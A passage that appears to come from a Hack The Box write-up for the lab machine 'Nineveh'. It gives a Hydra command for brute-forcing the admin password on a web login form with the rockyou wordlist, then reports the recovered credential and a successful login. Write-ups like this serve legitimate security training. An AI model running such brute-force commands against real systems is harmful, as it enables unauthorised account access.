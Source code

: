 ![](./IMG/18.png)

- I have tried above result, but it still failed.
- So I change to use Hydra to bruteforce specify username as 'admin'
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt nineveh.htb http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid" -t 64 
```

![](./IMG/19.png)
- Got credential: ```admin / 1q2w3e4r5t```
- Try to login -> Success.
